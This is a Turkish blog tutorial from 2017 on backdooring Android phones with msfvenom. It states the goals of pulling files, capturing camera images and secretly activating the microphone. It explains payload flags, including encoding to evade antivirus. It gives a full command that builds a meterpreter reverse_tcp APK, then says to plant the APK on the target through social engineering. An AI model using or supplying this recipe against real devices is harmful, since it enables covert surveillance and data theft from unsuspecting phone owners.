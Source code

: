 ﻿---
title: Msfvenom ile Android Telefonlara Sızma
category: blog
last_modified_at: 2017-06-27
---
Merhaba arkadaşlar bu yazımda android bir telefona arka kapı(backdoor) açarak sızacağız ve hedef telefondan dosyaları kendi bilgisayarımıza çekeceğiz, kamera görüntüleri yakalayıp, telefonun mikrofonunu aktif ederek ortam dinleme yapmaya çalışacağız.

Bu sızma testinde işletim sistemi olarak Kali 2017.1 dağıtımını kullanıyorum.

İlk önce kendi IP adresimi öğreniyorum, ilerleyen bölümlerde lazım olacak. Bunun için terminali açıp

![res1](https://www.hubeybi.com/wp-content/uploads/2017/06/and1.png)

    ifconfig

&nbsp;

yazıyorum ve ip adresimi not ediyorum. (wlan0 başlığı altındaki inet yazan bölüm bizim IP adresimiz oluyor.)

Şimdi bash ekranına gelip

    msfvenom -h

&nbsp;

&nbsp;

yazıyorum. Bu bölümden sızmak için gerekli olan .apk dosyasını oluşturacağız. Ekrana şimdi msfvenom aracının options seçenekleri, parametreleri ve bunların ne işe yaradıklarını gösteren bir yardım menüsü gelecek.

Parametrelerin bazılarının açıklamaları aşağıdaki gibidir.

> -p : Payload'u ifade eder. Oluşturduğumuz zararlı dosya açıldıktan sonra çalışacak olan kod parçasıdır.
> -e : Encoder'ı ifade eder. Oluşturduğumuz zararlı dosyayı bu parametreyle antivirüs programlarına yakalanmaması için
> şifreleyeceğiz.
> -i : İterations'ı ifade eder. Oluşturduğumuz zararlı dosyayı kaç defa şifreyeleceğimizi bu parametreyi kullanarak belirleyeceğiz.
> -f : Format'ı ifade eder. Oluşturacağımız zararlı dosyayı hangi formatta kaydeceğimizi bu parametreyle belirleyeceğiz.
> -a : Architecture'u ifade eder. Oluşturulan zararlı dosyanın hangi mimaride(32Bit-64Bit) çalışacağını bu parametreyle belirleyeceğiz.


> LHOST : Bu bölüme yukarıda "ifconfig" komutundan yararlanarak
> aldığımız ve bağlantı kurabilmek için kendi IP adresimizi gireceğiz.
> 
> LPORT : Bu bölüme gelen bağlantıları hangi port üzerinden dinlemek istiyorsak onu gireceğiz.

Şimdi sıra geldi zararlı dosyamızı oluşturmaya. Bash ekranıma aşağıdaki komutu giriyorum.

    msfvenom -p android/meterpreter/reverse_tcp LHOST=ipdaresimburaya LPORT=34 R > Desktop/zararli.apk

&nbsp;

koduyla zararlı dosyamı hazırlamış oldum. Şimdi "Sosyal Müdendislik" kullanarak bunu hedef aygıta yükleyebiliriz.

![and2](https://www.hubeybi.com/wp-content/uploads/2017/06/and2.png)